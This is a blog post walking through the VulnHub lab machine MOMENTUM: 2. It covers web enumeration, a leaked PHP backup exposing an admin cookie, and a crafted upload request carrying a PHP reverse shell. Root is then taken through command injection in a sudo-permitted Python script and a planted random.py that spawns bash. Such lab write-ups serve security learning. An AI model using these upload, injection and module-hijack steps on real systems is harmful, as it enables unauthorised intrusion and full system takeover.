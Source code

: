 ```yaml
---
layout: post
title:  "Vulnhub: MOMENTUM: 2"
date:   2021-07-11 19:00:00 +1000
category: hacking
---
```


I was away again; but this time I didn't even have a laptop. Still, I try to do something every day so I did a bit of [OverTheWire](https://overthewire.org/wargames/) on my phone. It's hard to do some of it where you're expected to resize a terminal window to take advantage of *more* or something like that, but [Leviathan](https://overthewire.org/wargames/leviathan/) was doable and so I completed that. After that I got home again and did [MOMENTUM: 2](https://www.vulnhub.com/entry/momentum-2,702/) from VulnHub. 

>Keywords : curl, bash, code review

It's medium rated.

## Ports
SSH and HTTP only.

## HTTP
We need to do some enumeration here; there are a few things we need to find:

1. http://192.168.1.240/dashboard.html is where we can upload files,
2. http://192.168.1.240/owls/ is where we find our uploaded content, and
3. http://192.168.1.240/ajax.php.bak is where we find our code to review

The last one I found with:

```
feroxbuster -u http://192.168.1.240 -w /usr/share/seclists/Discovery/Web-Content/merged-file -C 403 -x php,bak --no-recursion 
```

What's in our code?

{% highlight php %}
 //The boss told me to add one more Upper Case letter at the end of the cookie
   if(isset($_COOKIE['admin']) && $_COOKIE['admin'] == '&G6u@B6uDXMq&Ms'){

       //[+] Add if $_POST['secure'] == 'val1d'
        $valid_ext = array("pdf","php","txt");
   }
   else{

        $valid_ext = array("txt");
   }

   // Remember success upload returns 1   
{% endhighlight %}

This is relatively simple. We need to set a cookie but also figure out what it needs to be, and add a new parameter to our POST request. Before finding this file I had tried to defeat the upload filtering to no avail. Considering we need that cookie and parameter, it's no wonder.

I use Burp Suite Intruder to find the last character of the cookie - it is 'R'. Then I construct this request:

{% highlight shell %}
POST /ajax.php HTTP/1.1
Host: 192.168.1.240
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------136110921536555815714284481441
Content-Length: 5842
Origin: http://192.168.1.240
Connection: close
Cookie: admin=&G6u@B6uDXMq&MsR
Referer: http://192.168.1.240/dashboard.html

-----------------------------136110921536555815714284481441
Content-Disposition: form-data; name="secure"; 

val1d
-----------------------------136110921536555815714284481441
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-php

<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
# etc
{% endhighlight %}

## Privesc
At this point we've shelled the box and we get the password for our user:

{% highlight shell %}
www-data@momentum2:/home/athena$ ls -lash
ls -lash
total 32K
4.0K drwxr-xr-x 3 athena athena 4.0K May 27 18:26 .
4.0K drwxr-xr-x 4 root   root   4.0K May 27 16:30 ..
4.0K -rw-r--r-- 1 athena athena  220 May 25 12:15 .bash_logout
4.0K -rw-r--r-- 1 athena athena 3.5K May 25 12:15 .bashrc
4.0K drwxr-xr-x 3 athena athena 4.0K May 27 16:58 .local
4.0K -rw-r--r-- 1 athena athena  807 May 25 12:15 .profile
4.0K -rw-r--r-- 1 athena athena   37 May 27 17:04 password-reminder.txt
4.0K -rw-r--r-- 1 root   root    241 May 27 17:09 user.txt
www-data@momentum2:/home/athena$ cat pas        
cat password-reminder.txt 
password : myvulnerableapp[Asterisk]
www-data@momentum2:/home/athena$ cat us
cat user.txt 
/                         \
~ Momentum 2 ~ User Owned ~
\                         /

---------------------------------------------------
FLAG : 4WpJT9qXoQwFGeoRoFBEJZiM2j2Ad33gWipzZkStMLHw
---------------------------------------------------
www-data@momentum2:/home/athena$

www-data@momentum2:/home/athena$ su athena
su athena
Password: myvulnerableapp*

athena@momentum2:~$ sudo -l
sudo -l
Matching Defaults entries for athena on momentum2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User athena may run the following commands on momentum2:
    (root) NOPASSWD: /usr/bin/python3 /home/team-tasks/cookie-gen.py
athena@momentum2:~$
{% endhighlight %}

How can we exploit this? Let's inspect the code:

{% highlight shell %}
athena@momentum2:~$ cat /home/team-tasks/cookie-gen.py
cat /home/team-tasks/cookie-gen.py
import random
import os
import subprocess

print('~ Random Cookie Generation ~')
print('[!] for security reasons we keep logs about cookie seeds.')
chars = '@#$ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefgh'

seed = input("Enter the seed : ")
random.seed = seed

cookie = ''
for c in range(20):
    cookie += random.choice(chars)

print(cookie)

cmd = "echo %s >> log.txt" % seed
subprocess.Popen(cmd, shell=True)
athena@momentum2:~$
{% endhighlight %}

We've got command injection on the 'seed' parameter, and I use it to create a new python random module:

{% highlight shell %}
athena@momentum2:~$ cd /home/team-tasks 
cd /home/team-tasks
athena@momentum2:/home/team-tasks$ sudo -u root /usr/bin/python3 /home/team-tasks/cookie-gen.py
<oot /usr/bin/python3 /home/team-tasks/cookie-gen.py
~ Random Cookie Generation ~
[!] for security reasons we keep logs about cookie seeds.
Enter the seed : 2;bash -c 'touch random.py && chmod 777 random.py'
2;bash -c 'touch random.py && chmod 777 random.py'
SLhHfZUPTWW$WUGLDDWO
athena@momentum2:/home/team-tasks$ 2


athena@momentum2:/home/team-tasks$ printf 'import os\n' >> random.py
printf 'import os\n' >> random.py
athena@momentum2:/home/team-tasks$ printf 'os.system("/bin/bash");\n' >> random.py
<ks$ printf 'os.system("/bin/bash");\n' >> random.py
athena@momentum2:/home/team-tasks$ sudo -u root /usr/bin/python3 /home/team-tasks/cookie-gen.py
<oot /usr/bin/python3 /home/team-tasks/cookie-gen.py
root@momentum2:/home/team-tasks# id;hostname;date
id;hostname;date
uid=0(root) gid=0(root) groups=0(root)
momentum2
Fri 09 Jul 2021 08:16:35 AM EDT
root@momentum2:/home/team-tasks#
{% endhighlight %}

Boom. 
